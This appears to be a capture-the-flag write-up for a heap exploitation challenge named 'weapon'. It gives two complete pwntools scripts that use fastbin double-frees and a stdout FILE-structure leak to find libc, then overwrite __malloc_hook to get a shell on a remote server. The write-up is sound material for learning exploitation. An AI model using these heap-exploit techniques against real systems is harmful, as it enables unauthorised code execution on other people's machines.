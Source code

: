 # weapon
[docker-enviroment](./docker-enviroment)

this problem have two ways to solve it

> the key to topic is to let a chunk have libc address in fd. and then we use a trick to leak a libc address ,finally use fastbin attack to get shell.

## first 
make a fake 0x80(more than that is ok) chunk and free it .so that we can get libc in fd and then edit the struct of stdout to leak.finally get shell.

```
from pwn import *
def cmd(c):
	p.sendlineafter(">> \n",str(c))
def Cmd(c):
	p.sendlineafter(">> ",str(c))
def add(size,idx,name="padding"):
	cmd(1)
	p.sendlineafter(": ",str(size))
	p.sendlineafter(": ",str(idx))
	p.sendafter(":\n",name)
def free(idx):
	cmd(2)
	p.sendlineafter(":",str(idx))
def edit(idx,name):
	cmd(3)
	p.sendlineafter(": ",str(idx))
	p.sendafter(":\n",name)
def Add(size,idx,name="padding"):
	Cmd(1)
	p.sendlineafter(": ",str(size))
	p.sendlineafter(": ",str(idx))
	p.sendafter(":",name)
def Free(idx):
	Cmd(2)
	p.sendlineafter(":",str(idx))

#p=process('./pwn')
p=remote("139.180.216.34",8888)
add(0x18,0)
add(0x18,1)
add(0x60,2,p64(0x0)+p64(0x21)+'\x00'*0x18+p64(0x21)*5)
add(0x60,3,p64(0x21)*12)
add(0x60,4)
add(0x60,5)
free(0)
free(1)
free(0)
free(1)
add(0x18,0,"\x50")
add(0x18,0,'\x00'*8)
add(0x18,0,"A")
add(0x18,0,'GET')

edit(2,p64(0x0)+p64(0x91))
free(0)
add(0x18,0)
add(0x60,0,'\xdd\x25')

free(4)
free(5)
free(4)
free(5)
add(0x60,4,'\x70\x70')
#gdb.attach(p,'')
add(0x60,0)
add(0x60,0)
add(0x60,0)
add(0x60,0,'\x00'*(0x40+3-0x10)+p64(0x1800)+'\x00'*0x19)
p.read(0x40)

base=u64(p.read(6).ljust(8,'\x00'))-(0x7ffff7dd2600-0x7ffff7a0d000)
log.warning(hex(base))
#raw_input()
libc=ELF("./pwn").libc
Add(0x60,0)
Add(0x60,1)
Add(0x18,2)
Free(0)
Free(1)
Free(0)
Add(0x60,0,p64(libc.sym['__malloc_hook']+base-35))
Add(0x60,0)
Add(0x60,0)
one=0xf02a4
Add(0x60,0,'\x00'*19+p64(one+base))

Free(1)
Free(1)

p.interactive()

```

## second 
when we use scanf to input something .if you input lots of things ,it will malloc a 0x400 chunk to keep it temporarily。if we keep some fastbin when it malloc.it will be put into smallbin.now we also have libc address.

```
from pwn import *
context.log_level = "debug"
#p = process("./weapon")
p = remote("139.180.216.34",8888)
elf = ELF("./weapon")
a = elf.libc
#gdb.attach(p)
def create(idx,size,content):
	p.recvuntil(">> \n")
	p.sendline(str(1))
	p.recvuntil("weapon: ")
	p.sendline(str(size))
	p.recvuntil("index: ")
	p.sendline(str(idx))
	p.recvuntil("name:")
	p.send(content)
def delete(idx):
	p.recvuntil(">> ")
	p.sendline(str(2))
	p.recvuntil("idx :")
	p.sendline(str(idx))

def edit(idx,content):
	p.recvuntil(">> ")
	p.sendline(str(3))
	p.recvuntil("idx: ")
	p.sendline(str(idx))
	p.recvuntil("content:\n")
	p.send(content)

create(0,0x60,"a")
create(1,0x60,"b")
create(2,0x60,"c")
delete(0)
delete(1)
p.recvuntil(">> ")
p.sendline("1"*0x1000)
create(3,0x60,"\xdd\x25")
create(4,0x60,"e")
delete(2)
delete(1)
edit(1,"\x00")
create(5,0x60,"f")
create(6,0x60,"f")
file_struct = p64(0xfbad1887)+p64(0)*3+"\x58"
create(7,0x60,"\x00"*0x33+file_struct)
libc_addr =  u64(p.recvuntil("\x00",drop=True)[1:].ljust(8,"\x00"))-a.symbols["_IO_2_1_stdout_"]-131
print hex(libc_addr)
delete(6)
edit(6,p64(libc_addr+a.symbols["__malloc_hook"]-0x23))

create(8,0x60,"t")

create(9,0x60,"a"*0x13+p64(libc_addr+0xf1147))
p.recvuntil(">> \n")
p.sendline(str(1))
p.recvuntil("weapon: ")
p.sendline(str(0x60))
p.recvuntil("index: ")
p.sendline(str(6))

p.interactive()
```
